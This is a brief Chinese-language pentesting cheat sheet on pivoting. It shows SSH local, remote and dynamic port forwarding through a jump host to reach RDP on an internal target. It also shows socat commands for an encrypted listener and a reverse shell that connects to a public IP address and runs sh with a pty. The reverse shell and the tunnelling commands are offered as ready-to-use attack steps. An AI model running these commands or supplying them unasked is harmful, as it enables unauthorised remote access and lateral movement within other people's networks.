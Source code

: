 <a name="uLl0p"></a>
# SSH 

---

<a name="qDGxy"></a>
## 本地端口转发
通过访问VPS的1153访问B的3389<br />VPS执行<br />`ssh -CfNg -L 1153(VPS端口):1.1.1.10:3389(目标B端口) root@192.168.1.11(跳板A)`
<a name="ZbhO0"></a>
## 远程端口转发
通过访问VPS的1153访问B的3389<br />跳板A执行<br />`ssh -CfNg -R 1153(VPS端口):1.1.1.10(目标主机B):3389 root@192.168.1.4(跳板A)`
<a name="TjQbh"></a>
## 动态转发(socks 4/5)
`ssh -CfNg -D 7000 root@192.168.1.11`
<a name="agpKG"></a>
# Socat
监听：`socat tty,raw,echo=0 openssl-listen:80,fork,reuseaddr,cert=cert.pem,verify=0`<br />反弹：`socat openssl-connect:106.53.248.32:80,verify=0 exec:sh,pty,stderr,setsid,sigint,sane`<br />注：对于freebsd，命令里面的setsid调用也许对防止僵尸进程的产生有很大缓解<br />注：BSD中似乎有bug不能交互，用python spawn即可
